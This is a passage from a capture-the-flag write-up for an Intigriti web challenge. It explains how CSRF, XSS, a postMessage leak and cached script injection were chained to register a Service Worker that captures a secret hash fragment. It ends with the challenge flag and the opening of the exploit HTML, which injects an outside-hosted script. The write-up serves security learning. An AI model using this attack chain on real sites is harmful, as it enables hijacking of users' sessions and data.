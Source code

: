 Now that I could cache the ```track``` endpoint, I knew I could leverage it for something useful. Before reaching this point, I had gone through the hints multiple times, and one particular hint made it clear that I needed to use Service Workers to intercept requests before the hash fragment disappeared.

```
The flag you seek is out of reach,
A Worker’s touch can bridge the gap.
Post a message, leak the key,
The flag is now within your grasp.
```
The Service Worker required a separate JavaScript file at the root of the origin to function properly (since Service Workers run in a separate thread with their own execution context), and the /api/track injection was perfect candidate to achieve that.

I had already implemented a Service Worker to intercept requests—just to validate my assumption. If I could successfully cache the track endpoint, I could use it to register a Service Worker, which would then be capable of intercepting requests and capturing my long-awaited hash fragment.

To summarize what we have so far:

* CSRF to XSS
* PostMessage leaking the note ID
* JavaScript injection with a cacheable response

Now, all that was left was to connect all the pieces and finalize the exploit.

Out of curiosity, I wanted to check if caching was actually working in my browser. To my surprise—it wasn’t. I had no idea why. I was stuck once again (for quite a while), assuming it could be due to ETags or some other headers.

After taking a 1–2 hour break, I revisited how the bot was supposed to perform the challenge. It was explicitly mentioned that the bot would be using Firefox. I decided to test caching in Firefox, and it worked! Now, it was just about piecing everything together.

Initially, I tried using fetch to cache the response for the track endpoint, but it didn’t work. After some Googling and consulting LLMs, I realized that I needed to explicitly use ```{mode: "same-origin"}``` for the browser to allow the Fetch API to read and cache the response. Once I did that, caching via Fetch API finally worked.

To ensure there were no further issues, I replicated all the steps in my local Firefox browser. That’s when I hit another roadblock—the Service Worker refused to use the cache and kept fetching a fresh response.

After further research, I found a way to force the Service Worker to use the cache after an update by adding ```{updateViaCache: "all"}``` while registering it. With this, the Service Worker would still fetch a fresh response on the first load but use the cached version after a reload.

Finally, here’s the full dirty exploit that got me the flag—Enjoy! 🎉

Flag: ```INTIGRITI{s3rv1ce_w0rk3rs_4re_p0w3rful}```


```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title></title>
  </head>
  <body>
    <h1>Hello!!</h1>
    <script>
      let url = "https://challenge-0325.intigriti.io";
      var kk;

      let cont = "<script src='https://hosted.js'>";
      cont += "</";
      cont += "script>";
```